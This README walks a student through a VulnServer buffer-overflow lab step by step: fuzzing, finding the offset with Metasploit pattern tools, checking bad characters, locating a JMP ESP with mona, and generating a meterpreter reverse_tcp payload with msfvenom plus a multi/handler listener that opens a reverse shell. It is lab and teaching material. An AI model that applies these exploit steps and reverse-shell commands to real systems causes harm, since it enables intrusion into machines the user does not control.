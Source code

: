 # VulnServer 

We Need Two Virtual Machines Windows 10 , Kali . Download VulnServer [Here](https://thegreycorner.com/vulnserver.html)

In the Windows VM open Cmd go to `vulnserver` directory < Run `vulnserver.exe`.

In the Kali , write this command below < HELP
```sh
nc -nv 192.168.242.130 9999
```
Now we have to Find a Crash we do that by Fuzzing , we write a code in `test.spk`.

![alt text](testspk.png)

run the vulnserver < write a command in kali 

```sh
generic_send_tcp <windows vm ip> 9999 test.spk 0 0
```
We then Notice that it crashes after a bunch of inputs 

![alt text](spkcrash.png)

Now that we got a Crash , Its time to Analyse the Crash for that we use Immunity Debugger [Download](https://www.immunityinc.com/products/debugger/)

Open the Vulnserver.exe in Immunity Debugger.

To Recreate the Crash we write a Python Script : `exploit3.py`
We input 5000 A's so that it crashes the vulnserver

```python
#!/usr/bin/python
import os 
import sys 
import socket


host = "192.168.242.130"
port = 9999
buffer = "A" * 5000
s = socket.socket(socket.AF_INET , socket.SOCK_STREAM)
s.connect((host,port))
print s.recv(1024)
print ("sending exploit3")
s.send("TRUN /.:/" + buffer)
print s.recv(1024)
s.close()
```
Close your CMD in Windows and Open the Vulnserver.exe file in the Immunity Debugger.
When it loads up Press the Play button 

Then Go to your Kali Terminal and type this command below 
```sh
python2 exploit3.py
```
After running Press Ctrl + C 

Now Check your Immunity Debugger , You will see crash has happened like this 

![alt text](exp3_immunity.png)

We need to Identify Offset write command below in kali
```sh
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 5000
```
Input the pattern exactly as given in `exploit4.py` file.

Restart the Immunity Debugger by pressing `<<` this button and play it again.

Run your python file similar as you did for exploit3.py.Now again press Ctrl + C and check for crash in your Immunity debugger.

Note Down the RIP value we need it for calculating the Offset

![alt text](exp4_immunity.png)

In Kali write this command with value of RIP address 
```sh
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 5000 -q 386F4337
```
Offset = 2003
We now input 2003 - A , 4 - B , rest - C to check if B go into RIP

Write the next exploit as per `exploit5.py` , Restart your Immunity debugger - play it and Run your exploit5 script in kali . Now again check your immunity debugger  

We can see that RIP register is Overwritten with B's and we successfully hijacked it !

![alt text](exp5_immunity.png)

In your Immunity Debugger get the byte array for Bad character as per this image below 

![alt text](bad_char.png)

Put the Bad Characters in your script as per  `exploit6_bad.py` . restart the Immunity Debugger and run the script

You will notice that that "\x00" is bad character so we remove it , restart Immunity and run again ( I have already removed "\x00" in  `exploit6_bad.py` of repo)

It works Fine.

NOW WE NEED TO FIND THE JUMP ESP TO OVERWRITE THE RETURN ADDRESS TO VALUE POINTING TOWARDS OUR MEMORY 

type these commands in your Immunity Debugger 
```sh
!mona modules
```

```sh
!mona find -s "\xff\xe4" -m essfunc.dll
```
![alt text](jmp_esp.png)

You will see that best address we can use is 0x625011AF. Lets code it into our next exploit

Do note that while coding it we have to write it in Little Endian manner as per in `exploit7.py`

Restart the Immunity Debugger and In that ( LISTEN PROPERLY )

1. Right click < Go To < Expression < Write `625011AF`
   
2. Right Click at 625011AF < Set Breakpoint < toggle

3. Run it 

Check if your EIP is at 625011AF , Now beside the pause button there button in which you can step into memory address press it.

![alt text](exp7_immunity.png)

![alt text](exp7_immunity_inside.png)

TIME TO WRITE THE FINAL EXPLOIT !!

We need our payload , get it with this 
```sh
msfvenom -p windows/meterpreter/reverse_tcp lhost=<windows_ip> lport=4444 -e x86/shikata_ga_nai -b "\x00" -f c
```

Paste the payload in script as per `exploit_final.py`

CLOSE THE IMMUNITY DEBUGGER 
OPEN CMD AND OPEN THE EXE FILE AS WE DID AT START

In kali run your `exploit_final.py` with python2

Do all these steps 
```sh
python2 exploit_final.py
```
```sh
msfconsole
```
```sh
use/exploit/multi/handler
```
```sh
set payload windows/meterpreter/reverse_tcp
```
```sh
set lhost <kali ip>
```
```sh
run
```

If you did it properly you will get Meterpreter Reverse Shell on your Kali

Check the Google Classroom PPTs and Videos if you have any doubts.







